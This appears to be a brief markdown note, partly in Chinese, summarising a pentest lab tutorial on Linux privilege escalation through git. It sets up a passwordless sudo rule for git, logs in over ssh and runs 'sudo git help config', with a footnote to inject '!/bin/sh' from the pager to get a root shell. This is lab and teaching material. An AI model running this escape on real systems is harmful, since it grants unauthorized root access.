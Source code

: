 ## git Privilege Escalation

`git --help`

`git log`

### Sudo Rights Lab setups for Privilege Escalation

`test ALL=(root) NOPASSWD: /usr/bin/git` [^1]

### Exploiting Sudo rights

`ssh test@192.168.0.15`

`sudo git help config`[^2]



[原文](https://www.hackingarticles.in/linux-for-pentester-git-privilege-escalation/)

---

[^1]: 在 sudoers 文件里添加 test 账户
[^2]: 注入 `!/bin/sh` 来执行 bash shell